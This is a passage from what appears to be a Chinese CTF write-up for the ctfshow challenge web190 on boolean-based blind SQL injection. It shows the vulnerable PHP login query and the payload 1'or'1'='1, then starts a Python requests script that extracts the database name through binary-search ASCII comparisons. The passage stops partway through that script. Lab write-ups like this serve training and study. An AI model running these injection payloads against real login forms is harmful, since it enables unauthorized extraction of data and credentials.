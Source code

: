 # 三、布尔盲注

## web190~py脚本布尔盲注

> 查询语句
>
> ```
>   //拼接sql语句查找指定ID用户
>   $sql = "select pass from ctfshow_user where username = '{$username}'";
>       
> ```
>
> 返回逻辑
>
> ```
>   //密码检测
>   if(!is_numeric($password)){
>     $ret['msg']='密码只能为数字';
>     die(json_encode($ret));
>   }
> 
>   //密码判断
>   if($row['pass']==$password){
>       $ret['msg']='登陆成功';
>     }
> 
>   //TODO:感觉少了个啥，奇怪
>       
> ```

如果瞎输入用户名，会提示用户名不存在，

但是如果输入`1'or'1'='1` 就会提示密码错误存在布尔注入.

找到api开始

```
http://8846c979-3fe0-41fd-aef7-6042f6f9bc21.chall.ctf.show/api/
```

写个脚本

```python
# Author: yanmie

import requests

url = "http://8846c979-3fe0-41fd-aef7-6042f6f9bc21.chall.ctf.show/api/"


# 查询当前数据库
def getDatabase():
    payload = "0'or(ascii(substr(database(),{},1))>{})='1"
    i = 0
    database = ""

    while True:
        i +=1
        head = 0
        tail = 127
        while head<tail:
            mid = (head+tail)//2
            data = {
                "username" : payload.format(i,mid),
                "password" : 0
```